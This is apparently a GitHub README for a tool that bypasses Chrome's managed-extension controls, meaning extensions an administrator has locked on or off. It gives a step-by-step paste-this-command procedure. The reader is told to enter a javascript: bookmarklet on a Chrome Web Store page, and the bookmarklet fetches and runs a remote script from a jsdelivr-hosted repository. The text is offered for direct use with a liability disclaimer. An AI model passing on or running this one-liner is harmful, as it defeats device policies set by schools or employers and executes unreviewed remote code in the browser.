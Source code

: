 WARNING: I AM NOT RESPONSIBLE FOR ANYTHING IF YOU USE THIS

Patched in Chrome v106+ to check your Chrome version goto chrome://version/

To use goto https://chrome.google.com/webstorex you will get a 404 Error but that doesn't matter replace the URL and type: "javascript:" than copy and paste: "(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/HangWithCmm/Chrome-Extention-Bypass/bypass.js';document.body.appendChild(a);}())" now you should have something like this: "javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/HangWithCmm/Chrome-Extention-Bypass/bypass.js';document.body.appendChild(a);}())" now press ENTER and you will be able to Enable/Disable any extension.
